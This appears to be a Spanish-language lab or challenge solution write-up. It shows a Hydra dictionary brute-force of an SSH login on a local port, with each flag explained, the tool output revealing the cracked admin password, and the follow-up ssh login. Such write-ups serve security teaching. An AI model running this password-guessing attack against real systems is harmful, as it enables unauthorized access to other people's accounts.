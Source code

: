 # Solucion para el reto 4

## Comando utilizado para la obtención de la contraseña para el usuario admim

```cs
hydra -s 2222 -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -t 8 ssh://127.0.0.1 -v -f
```
![Comando de ataque](image.png)


- Hydra: Llamamos la herramienta de Hydra.
- -s: Definimos el número de puerto usado para el ejercicio, ejemplo **2222**.
- -l: Definimos el nombre del usuario para la conexión, ejemplo **admin**.
- -P: Definimos el diccionario de contraseñas a usar para el ataque, **/usr/share/wordlists/rockyou.txt**.
- -e nsr: Definimos como entrada la opcion de una contraseña vacia(**n**), el nombre de usuario como contraseña(**s**), el nombre de usuario con las letras invertidas(**r**).
- -t: Definimos el número de tareas en paralelo, ejemplo **8**.
- ssh: Definimos el protocolo victima, ejemplo **SSH**.
- IP: Definimos la IP de la victima, ejemplo **//127.0.0.1**.
- -v: Activamos el modo Verbose, para ver información detallada del ataque.
- -f: Termina el ataque cuando encuentre una contraseña valida.


## Resultado del comando


```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-26 21:04:04
[DATA] max 8 tasks per 1 server, overall 8 tasks, 14344402 login tries (l:1/p:14344402), ~1793051 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://admin@127.0.0.1:2222
[INFO] Successful, password authentication is supported by ssh://127.0.0.1:2222
[STATUS] 88.00 tries/min, 88 tries in 00:01h, 14344314 to do in 2716:44h, 8 active
[STATUS] 82.67 tries/min, 248 tries in 00:03h, 14344154 to do in 2891:58h, 8 active
[2222][ssh] host: 127.0.0.1   login: admin   password: smokey
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-26 21:07:50
```
![Contraseña para admin](image-1.png)

## Conexión con el servicio SSH

Probamos la conectividad con las credenciales obtenidas

```cs
ssh admin@127.0.0.1 -p 2222 
```
![Conexión exitosa](image-2.png)



